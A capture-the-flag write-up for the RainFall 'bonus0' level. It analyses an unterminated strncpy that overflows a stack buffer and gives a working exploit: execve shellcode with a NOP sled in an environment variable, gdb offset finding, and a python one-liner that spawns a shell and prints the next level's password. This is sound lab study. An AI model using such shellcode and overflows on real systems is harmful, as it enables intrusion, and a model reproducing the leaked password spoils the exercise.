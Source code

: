 # bonus0

### First analysis

The code of this level is in 3 part but is actually quite simple to understand:

```c
void p(char *ppBuffer, char *message) {
    char    buffer[4096];

    puts(message);
    read(0, buffer, 4096);
    *strchr(buffer, '\n') = 0;
    strncpy(ppBuffer, buffer, 20);

    return;
}

void pp(char *mainBuffer) {
    char    buffer1[20];
    char    buffer2[20];
    size_t  len;

    p(buffer1, " - ");
    p(buffer2, " - ");

    strcpy(mainBuffer, buffer1);

    len = strlen(mainBuffer);
    mainBuffer[len] = ' ';

    strcat(mainBuffer, buffer2);

    return;
}

int main(void) {
    char buffer[54];

    pp(buffer);
    puts(buffer);

    return 0;
}
```

So we have a main function that calls pp and print a buffer of 54 after that. pp() is going to set this buffer following those steps:
- First it created 2 buffers of 20 chars long
- It calls p() function 2 times that read 4096 chars from stdin, and take the firsts 20 chars of it and return it to pp()
- It takes the first 20 chars returned from p(), add a space after, and concatenate with the second return value of p()
- This gives us a buffer like: [20 chars from p()] + ' ' + [20 chars from p()]

We can easily see a problem here, as p() doesn't set a '\0' character at the end of the 20 char, but at the end of the buffer entered by the user. So if we enter more than 20 chars into the first buffer, it won't be null terminated. this gives us this weird results when trying to do so:

```sh
bonus0@RainFall:~$ ./bonus0 
 - 
AAAABBBBCCCCDDDDEEEE
 - 
aaaabbbbccccddddeeee
AAAABBBBCCCCDDDDEEEEaaaabbbbccccddddeeee��� aaaabbbbccccddddeeee���
Segmentation fault (core dumped)

```

As we can see the buffer printed at the end is made of:

```
[20 char first buffer] [20 char second buffer] [???] [20 char second buffer] [???]
```

The question marks are printed because the buffer is non null terminated and doesn't know where to stop reading the string, then segfault.

### A solution ?

So what happend is that the first buffer is set with 20 chars without a '\0' at the end. Since the space memory of buffer1 and buffer2 are next to each other, once buffer2 is set, if we read buffer1, we will read both buffer. So when the program use strcpy to place buffer1 into the main buffer, it actually prints 40 chars (plus a little garbage), then it add a space after, then finally it concatenates buffer2 with the actual states of main buffer. This is why we can see buffer2 appears 2 times. We also understand that an overflow is possible since we have control on 61 char over the 54 main buffer size. (the buffer size in our program is set from decompiler guesses, it could be different, the only thing we know is that there is an overflow).

Now that we know that we can also make an analysis, the size of the buffer of 20 doesn't allow us to make use a shellcode since the shortest we found is 21 chars long. We tried to take the first 20 chars into buffer1 and add the last one into buffer 2 but nothing worked. And we know that we probably need a shellcode since nowhere in the script a shell is launched or the password of bonus1 is printed.

After a bit of researches we found 2 options for short buffer overflow, there is the FPO which doesn't match our situation at all, and there is the usage of a env variable.

Indeed env variables are accessible from the program launched and it uses our env in order to do that. If we used the env to store the shellcode, then find a way to redirect the program to the location in the memory of this env variable, it could work.

For that we first set a env variable for the shellcode with a bunch of NOP instructions before because addresses can slithly change from time to time, so if we reach the bad address, we will fall into the NOP instructions and the shellcode will still work:

```sh
export SHELLCODE=$(python -c "print('\x90' * 500 + '\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80')")
```

Then we write a little script to get the address of this shellcode:

```c
int main(int ac, char **av) {
    printf("%p", getenv(av[1]));
    return 0;
}
```

This script is available in ./Resouces/env_address.c, it will print you the address of the env variable, that we will need to translate in little endian.

Once we have this we have to find where to type this address, where can we overflow an address ? For that we do the usual test on gdb that will give us a possible segfault address:

```sh
(gdb) run
Starting program: /home/user/bonus0/bonus0 
 - 
AAAABBBBCCCCDDDDEEEE
 - 
aaaabbbbccccddddeeee
AAAABBBBCCCCDDDDEEEEaaaabbbbccccddddeeee��� aaaabbbbccccddddeeee���

Program received signal SIGSEGV, Segmentation fault.
0x64636363 in ?? ()
```

We see that the address of segfault is 0x64636363 so, the hex value of dccc, in big endian cccd. We know that our address has to be place with a padding of 9 chars in the second argument. And we end up with:

```sh
bonus0@RainFall:~$ (python -c "print '\x90' * 30"; python -c "print 'A' * 9 + '\x1f\xf7\xff\xbf' + 'B' * 7"; cat) | ./bonus0
 - 
 - 
��������������������AAAAAAAAA���BBBBBBB��� AAAAAAAAA���BBBBBBB���
whoami
bonus1
cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```
